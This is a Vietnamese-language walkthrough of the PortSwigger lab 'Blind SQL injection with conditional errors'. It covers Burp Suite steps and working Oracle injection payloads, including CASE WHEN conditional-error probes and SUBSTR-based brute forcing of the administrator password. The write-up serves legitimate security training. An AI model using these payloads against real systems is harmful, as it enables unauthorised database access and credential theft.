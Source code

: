 # Lab: Blind SQL injection with conditional errors

### Link: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors
![Require of Lab](/Images/sql12.1.png)

Yêu cầu của bài lab là đăng nhập bằng thông tin của user `administrator`

Đầu tiên mở Burp Suite, chuyển sang tab `Proxy` > `Intercept` > `Open Browser`. Truy cập vào bài lab bằng trình duyệt của Burp Suite

Vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql12.2.png)

Sau đó, bấm vào một danh mục tùy ý 
![Website](/Images/sql12.4.png)

và ở Burp chọn tab `HTTP history`, lựa chọn request mới nhất, tiếp theo click chuột phải vô request đó và chọn `Send to Repeater`
![Website](/Images/sql12.5.png)

Chuyển sang tab `Repeater`, ta có thể thấy được TrackingId của request là `O4sZnplqWKgPqmMZ`.
Chỉnh sửa TrackingId thành
> TrackingId = O4sZnplqWKgPqmMZ`'`

bấm `Send` để gửi request và xem phản hồi
![Website](/Images/sql12.5.png)

Tiếp tục chỉnh sửa TrackingId thành
> TrackingId= O4sZnplqWKgPqmMZ`''`

bấm `Send` để gửi request và xem phản hồi
![Website](/Images/sql12.6.png)

Tạo một câu truy vấn con hợp lệ, như sau 
> TrackingId'|| (SELECT' ' FROM dual) ||'

Do sử dụng CSLD là Oracle, nên khi sử dụng câu truy vấn Select phải chỉ định một tên bảng.
![Website](/Images/sql12.7.png)

Tiếp theo là tạo một truy vấn không hợp lệ và xem phản hồi
>  TrackingId'|| (SELECT' ' FROM abc) ||'

![Website](/Images/sql12.8.png)

Bởi vì trong dtb không có bảng nào là abc nên truy vấn không hợp lệ, và phản hồi trả về một lỗi. 
Hành vi này thực sự gợi ý rằng nội dung đã chèn đang được xử lý như một truy vấn SQL bởi back-end.

Kiểm tra xem bảng user có trong database hay không, ta sẽ kiểm tra như sau
Thay đổi TrackingId thành như sau
>  TrackingId`'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`

Vì khi phản hồi không trả về lỗi, nên có thể suy đoán rằng bảng user có tồn tại trong dtb
![Website](/Images/sql12.9.png)

Kiểm tra phản hồi, khi chèn một câu truy vấn điều kiện vào như sau
> TrackingId`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

![Website](/Images/sql12.10.png)

Thay đổi câu truy vấn trở thành như sau và xem phản hồi
> TrackingId`'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`

![Website](/Images/sql12.11.png)

Qua hai phép thử trên, nhận thấy rằng ta có thể kích hoạt lỗi một cách có điều kiện dựa trên một điều kiện cụ thể.
Câu lệnh CASE kiểm tra một điều kiện và đánh giá một biểu thức nếu điều kiện là đúng và một biểu thức khác nếu điều kiện là sai.
Nếu điều kiện đúng (điều kiện 1=1 hoặc 1=2) thì ta sẽ thực hiện biểu thức đầu tiên (một số chia cho 0 -> gây ra lỗi) và ngược lại,
điều kiện sai thì t sẽ thực hiện biểu thức thứ hai

Để tìm ra password của administrator, đầu tiên ta phải tìm được độ dài của password bằng cách sử dụng Burp Intruder
> TrackingId`'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Nếu điều kiện LENGTH(password)> [số] thì sẽ trả về lỗi, ngược lại thì sẽ không có lỗi. Do đó, ta chỉ cần dò xem phản hồi của payload nào không trả về lỗi là xác định được độ dài của password
![Website](/Images/sql12.12.png)

Ta đã xác định được độ dài của password là 20 ký tự, tiếp đó sẽ đi tấn công brute forcer để tìm ra password
> TrackingId`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Dựa vào kết quả tấn công, ta tìm được password là `sb6gpzsug7u3fswegxb6`
![Website](/Images/sql12.13.png)

Sau đó, dùng password đã tìm được thực hiện đăng nhập vào website bằng username `administrator` là đã hoàn thành bài lab rồi
![Website](/Images/sql12.14.png)


***********
Từng bước làm cụ thể được hướng dẫn ở bài lab trước :

Link: 
***********
<div align="right"> <i> Ngày 23 tháng 01 năm 2022 </i> </div>




